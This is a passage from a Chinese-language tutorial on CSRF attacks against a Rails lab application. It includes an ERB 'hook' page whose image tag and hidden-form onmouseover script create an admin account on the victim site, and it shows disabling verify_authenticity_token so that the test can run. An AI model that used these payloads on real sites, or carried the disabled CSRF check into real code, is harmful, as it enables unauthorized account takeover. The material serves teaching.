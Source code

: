 ~~~ruby

~~~

我们注意到控制器里的一段代码 `skip_before_filter :verify_authenticity_token`, 这段代码可以让我们的 create 方法不会去验证浏览器请求应用时发送过来的一个防止 **CSRF** 的 token, 这样我们的试验才可以进行下去。按照用例1的步骤，V 的管理员 'admin' 登录站点 V 后，使用同一浏览器访问攻击者设置的 'hook' 页面并不会增加一个新的管理员，这说明在应用设计中，对会改变资源状态的请求设置其请求方法为 POST 方法，能够抵挡一些比较初级简陋的 **CSRF** 攻击，如果攻击者动点心思在 'hook' 页面上增加一些恶意脚本，那么站点 V 的防线又被攻破了。

增加了恶意代码的 hook 页面的内容,

~~~erb
<h2>攻击者在这个页面发起 CSRF 攻击</h2>

<p>下面这个 image 标签会创建一个叫 "admin002", 密码为 "111111" 的管理员</p>
<%= image_tag "http://websafe-csrf-victim.dev/csrf/admin/admin_user/create?admin%5Blogin%5D=admin002&admin%5Bpassword%5D=111111" %>

<img src="/images/harmless.jpg" width="400" height="400" onmouseover="
 var f = document.createElement('form');
  f.style.display = 'none';
  this.parentNode.appendChild(f);
  f.method = 'POST';
  f.action = 'http://websafe-csrf-victim.dev/csrf/admin/admin_user/create?admin%5Blogin%5D=admin002&admin%5Bpassword%5D=111111';
  f.submit();
  return false;
     " />

~~~

我们注意到攻击者在页面上增加了一张本身无害的图片，但是他给这张图片增加了一个 'onmouseover' 事件，通过此事件，当受害者把鼠标移动到图片上时，脚本会创建一个 form 表单然后在受害者毫无察觉的情况下 POST 请求 'http://websafe-csrf-victim.dev/csrf/admin/admin_user/create' 地址, 最后创建一个管理员。

hook 页面在浏览器上的显示内容:
![csrf image post](/images/csrf_image_post.png)
